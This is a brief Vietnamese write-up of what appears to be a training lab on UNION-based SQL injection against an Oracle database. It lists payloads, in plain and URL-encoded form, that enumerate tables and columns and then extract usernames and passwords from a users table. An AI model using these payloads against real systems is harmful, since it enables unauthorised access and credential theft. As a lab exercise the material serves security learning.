Tổng quan: Y hệt lab trước, nhưng mà trên Oracle

Khai thác:

Lấy thông tin về các bảng: ' UNION SELECT OWNER, TABLE_NAME FROM all_tables—

→ %27%20UNION%20SELECT%20OWNER%2C%20TABLE%5FNAME%20FROM%20all%5Ftables%2D%2D

![image.png](image%204.png)

- Khai thác từ bảng USERS_JRVMVM: ' UNION SELECT COLUMN_NAME, null FROM all_tab_columns WHERE table_name = 'USERS_JRVMVM'—

→ category= %27%20UNION%20SELECT%20COLUMN%5FNAME%2C%20null%20FROM%20all%5Ftab%5Fcolumns%20WHERE%20table%5Fname%20%3D%20%27USERS%5FJRVMVM%27%E2%80%94

![image.png](image%205.png)

- Chốt hạ: ' UNION SELECT PASSWORD_WUWHZJ, USERNAME_MUUYGC FROM USERS_JRVMVM—

→ category=%27%20UNION%20SELECT%20PASSWORD%5FWUWHZJ%2C%20USERNAME%5FMUUYGC%20FROM%20USERS%5FJRVMVM%2D%2D

![image.png](image%206.png)
